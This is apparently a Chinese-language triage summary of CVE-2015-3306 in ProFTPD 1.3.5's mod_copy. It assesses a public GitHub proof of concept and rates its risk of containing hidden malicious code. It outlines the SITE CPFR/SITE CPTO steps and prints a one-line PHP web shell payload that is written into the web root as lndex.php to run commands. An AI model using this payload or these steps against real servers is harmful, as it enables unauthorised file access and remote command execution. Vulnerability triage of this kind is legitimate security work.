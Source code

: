## CVE-2015-3306 - ProFTPD mod_copy 文件访问控制漏洞

**漏洞编号:** CVE-2015-3306

**漏洞类型:** 文件读取/写入

**影响应用:** ProFTPD

**危害等级:** 高危，可读取任意文件，写入任意文件，甚至可导致远程代码执行

**影响版本:** 1.3.5

**利用条件:** 需要目标服务器运行ProFTPD 1.3.5，且启用了mod_copy模块，攻击者能够连接到FTP服务

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2015-3306 漏洞存在于 ProFTPD 1.3.5 的 mod_copy 模块中。该模块允许远程攻击者通过 `SITE CPFR` 和 `SITE CPTO` 命令读取和写入任意文件。

**有效性：**
提供的 PoC 代码有效。它包含两种利用方式：

*   **方法 1：** 复制任意文件。攻击者可以使用 `SITE CPFR` 指定源文件路径，然后使用 `SITE CPTO` 指定目标文件路径，从而将服务器上的任意文件复制到 Web 目录下，然后通过 Web 访问该文件。
*   **方法 2：** 写入后门。攻击者首先尝试将 `/proc/self/cmdline` 的内容复制到 `/tmp/...<?php passthru($_GET['img']);?>`，然后再将该临时文件复制到 Web 目录下，命名为 `lndex.php`。 成功后，可以通过访问 `http://<目标IP>/lndex.php?img=<命令>` 执行任意系统命令。

**投毒风险：**
经过分析，该 PoC 代码本身不包含明显的投毒代码。代码功能明确，目的是利用漏洞进行文件复制和后门写入，没有发现其他恶意行为。投毒风险评估为 0%。

**利用方式：**
攻击者通过 FTP 客户端连接到目标 ProFTPD 服务器，发送 `SITE CPFR` 和 `SITE CPTO` 命令来利用漏洞。具体步骤如下：

1.  使用 `SITE CPFR <源文件>` 指定要复制的源文件。
2.  使用 `SITE CPTO <目标文件>` 指定复制的目标文件。

如果目标文件是 Web 目录下的 PHP 文件，攻击者可以通过 Web 浏览器访问该文件，并执行恶意代码。

**项目地址:** [shk0x/cpx_proftpd](https://github.com/shk0x/cpx_proftpd)

**漏洞详情:** [CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306)